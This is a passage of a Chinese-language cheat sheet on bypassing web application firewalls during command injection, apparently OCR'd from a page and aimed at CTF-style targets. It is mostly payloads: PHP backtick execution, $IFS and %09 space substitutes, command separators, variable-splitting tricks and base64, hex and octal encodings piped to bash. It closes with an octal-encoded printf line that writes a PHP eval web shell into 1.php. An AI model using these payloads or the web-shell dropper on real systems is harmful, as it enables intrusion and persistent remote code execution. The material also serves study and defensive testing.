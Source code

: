    ```
   #shell_exec() 函数实际上仅是反撇号 (`) 操作符的变体，当禁用shell_exec时，` 也不可执行
   <?php
   	echo `whoami`;
   ?>
   ```

   

### 一些WAF的绕过方式

#### 空格

```
#常见的绕过符号有：
$IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、
kg=$'\x20flag.txt'&&cat$kg
# $IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，加一个{}就固定了变量名，$IFS$9后面之所以加个$是为了起到截断的作用
```

#### 命令分隔符

```
%0a  #换行符，需要php环境
%0d  #回车符，需要php环境
;    #在 shell 中，是”连续指令”
&    #不管第一条命令成功与否，都会执行第二条命令
&&   #第一条命令成功，第二条才会执行
|    #第一条命令的结果，作为第二条命令的输入
||   #第一条命令失败，第二条才会执行
```

#### 关键字

- 拼接绕过

  ```
  #执行ls命令：
  a=l;b=s;$a$b
  #cat flag文件内容：
  a=c;b=at;c=f;d=lag;$a$b ${c}${d}
  #cat test文件内容
  a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
  ```

- 编码绕过

  ```
  #base64
  echo "Y2F0IC9mbGFn"|base64 -d|bash  ==> cat /flag
  echo Y2F0IC9mbGFn|base64 -d|sh      ==> cat /flag
  #hex
  echo "0x636174202f666c6167" | xxd -r -p|bash   ==> cat /flag
  #oct/字节
  $(printf "\154\163") ==>ls
  $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
  {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
  #i也可以通过这种方式写马
  #内容为<?php @eval($_POST['c']);?>
  ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
  ```
